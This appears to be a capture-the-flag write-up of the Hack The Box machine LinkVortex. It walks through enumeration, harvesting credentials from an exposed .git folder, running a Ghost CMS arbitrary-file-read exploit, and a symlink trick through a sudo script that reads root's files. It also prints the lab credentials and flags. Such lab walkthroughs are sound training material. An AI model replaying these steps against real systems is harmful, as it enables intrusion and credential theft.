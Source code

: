 
[[HTB]] : [[Machines]]

**Date:** 09/01/25  
**Target IP:** 10.10.11.47

---
### **Initial Scanning**

##### **[[Nmap]]**:

- **22/tcp** open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
- **80/tcp** open  http    Apache httpd
	|\_http-title: Did not follow redirect to http://linkvortex.htb

Added linkvortex.htb to /etc/hosts file

---
### **Exploration and Enumeration**

**Port 80 (HTTP):**
- Navigated to website hosted at port 80.
- Blog page type thing.
- Blog author is admin.
- Sign Up button doesn't work.
- Powered by Ghost???

**Ghost** is an open source ("Open-source software") content management system platform written in JavaScript and distributed under the [MIT License](https://en.wikipedia.org/wiki/MIT_License "MIT License"), designed to simplify the process of online publishing for individual bloggers as well as online publications.

Found the default Ghost Admin Login Page at http://linkvortex.htb/ghost/#/signin.

Found multiple exploits or Ghost on GitHub and other CVE databases but they seem to require credentials which I do not possess which means another approach should be attempted.

##### **Subdomain and Directory Enumeration**

With great difficulty (the connection to this server is infuriating), a subdomain at **dev.linkvortex.htb** was discovered.

```bash
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://FUZZ.linkvortex.htb/ -c -v -fc 301
```

Dirsearch was then used to reveal that dev.linkvortex.htb had some interesting directories.

```bash
❯ dirsearch -u http://dev.linkvortex.htb -t 50

[16:03:48] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/
```

Found the following at http://dev.linkvortex.htb/.git/logs/HEAD

```
0000000000000000000000000000000000000000 299cdb4387763f850887275a716153e84793077d root <dev@linkvortex.htb> 1730322603 +0000	clone: from https://github.com/TryGhost/Ghost.git
```

---
### **Exploitation**

In order to properly analyse the git repo, it is necessary to fetch the whole thing. This is accomplished with:

```
❯ wget -m -I .git http://dev.linkvortex.htb/.git
```

We can then `cd` into the downloaded folder and run:

```bash
❯ git status
```

Obtaining the following:

```
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	new file:   Dockerfile.ghost
	modified:   ghost/core/test/regression/api/admin/authentication.test.js

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    .editorconfig
	deleted:    .gitattributes
	deleted:    .github/AUTO_ASSIGN
	deleted:    .github/CONTRIBUTING.md
```

We can the obtain credentials in the listed modified file using:

```bash
❯ git show :ghost/core/test/regression/api/admin/authentication.test.js
```

`const password = 'OctopiFociPilfer45';` is one of the credentials obtained and utilizing a user enumeration vulnerability on the the Ghost login page we are able to deduce that `admin@linkvortex.htb` is an existing user email. Combining these we can gain access to the ghost admin page.

Now having obtained a valid username and password, I'm able to use the Ghost CMS exploits i previously found on GitHub. One specifically stands out: https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028 as it allows one to arbitrarily read any file on the system. It can hence be used to read the other file that was listed before when I ran `git status`.

On reading the file using the exploit:

```
❯ bash exploit.sh -u admin@linkvortex.htb -p OctopiFociPilfer45 -h linkvortex.htb
```

We obtain the following credentials:

```
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
```

I can now SSH into this user and obtain the **user flag** :

**c623ddf811a8211e6d0c7be7832a66a5**

---
### **Post-Exploitation**

Running linpeas did not indicate anything extremely interesting. However `sudo -l` did.

```
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

Reading the `clean_symlink.sh` file provided the following :

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Effectively, this script checks if a .png file is a symbolic link and if it is trying to link to a critical, sensitive file. If it finds it trying to read a critical file it removes the link and if not it checks its content (optionally printing said content) and moves it to a quarantine folder.

---
### **Escalation**

This script can be exploited to display the contents of `/root/root.txt` by first creating a `test.txt` file with a symbolic link to it and then creating a further `test.png` file with a symbolic link to the `test.txt` file and then running the script with `CHECK_CONTENT=true` to display the contents.

```bash
bob@linkvortex:~$ ln -s /root/root.txt test.txt

bob@linkvortex:~$ ls
test.txt  user.txt

bob@linkvortex:~$ ln -s /home/bob/test.txt test.png

bob@linkvortex:~$ ls
test.png  test.txt  user.txt

bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh test.png

Link found [ test.png ] , moving it to quarantine
Content:
bf048412c4ade4b196805ed2d70de3f5
```

We thus obtain the **root flag** :

**bf048412c4ade4b196805ed2d70de3f5**

---
### **Summary**

- Ghost CMS ( **Outdated Version** ) website on Port 80
- Discovered Subdomain: **dev.linkvortex.htb** with **.git folder accessible**
- Ghost CMS Admin Credentials: `admin@linkvortex.htb : OctopiFociPilfer45`
- [GitHub Exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) for **arbitrary file read**
- Bob User Credentials: `bob@linkvortex.htb : fibber-talented-worth`
- User Flag (`home/bob/user.txt`) : **c623ddf811a8211e6d0c7be7832a66a5**
- **Insecure script** allowing Bob to arbitrarily read sensitive files
- Root Flag (`/root/root.txt`) : **bf048412c4ade4b196805ed2d70de3f5**





